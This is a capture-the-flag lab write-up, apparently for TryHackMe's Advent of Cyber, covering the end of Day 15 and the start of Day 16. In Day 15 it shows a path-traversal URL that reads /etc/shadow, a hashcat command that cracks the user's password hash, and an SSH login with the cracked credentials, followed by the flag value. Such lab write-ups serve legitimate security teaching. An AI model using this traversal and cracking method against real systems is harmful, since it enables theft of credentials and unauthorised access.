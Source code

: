 ## What is Charlie going to book a holiday to?
http://10.10.21.94/get-file/views%2Fnotes%2Fnote3.txt or just read the page

## Read /etc/shadow and crack Charlies password.
```/etc``` is at the root directory. and we are currently at ```...../get-file/....```. To move back to root terminal we need to do ``cd ..`` multiple times. So my plan is just spam ```..%2F``` like 10 time to make sure that it will end up at the root directory.


this give us ````10.10.21.94/get-file/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fshadow```

now use hashcat
```console
kali@kali:~$ mkdir Day15 && cd Day15
kali@kali:~/Day15$ nano charlie.lst # add the hash
kali@kali:~/Day15$ hashcat -m 1800 -a 0 -o charlie.txt charlie.lst /usr/share/wordlists/rockyou.txt --force
kali@kali:~/Day15$ cat charlie.txt
```
## What is flag1.txt?
just SSH using charlie cerdential and grep the flag1.txt!!
```console
kali@kali:~/Day15$ ssh charlie@10.10.21.94
charlie@ip-10-10-21-94:~$ ls
flag1.txt
charlie@ip-10-10-21-94:~$ cat flag1.txt 
THM{4ea2adf842713ad3ce0c1f05ef12256d}
```

# Day 16 : File Confusion 
```
The Christmas monster got access to some files and made a lot of weird changes. Can you help fix these changes?

Use a (python) script to do the following:
1. extract all the files in the archives 
2. extract metadata from the files 
3. extract text from the files
```
READ [this](https://docs.google.com/document/d/13eYEcqpyp3fIAnaDR8PHz6qibBJJwf2Vp5M77KkEKtw/edit#)

## How many files did you extract(excluding all the .zip files)
```python
""" 
How many files did you extract(excluding all the .zip files)
"""
# get all files
files = os.listdir('./final-final-compressed')
for file in files:
    # now unzip it
    with zipfile.ZipFile('./final-final-compressed/'+file, 'r') as zip_ref:
        zip_ref.extractall('./extracted')
# get all files agains
extracted = os.listdir('./extracted')
print('Extracted %s files' % len(extracted))
```
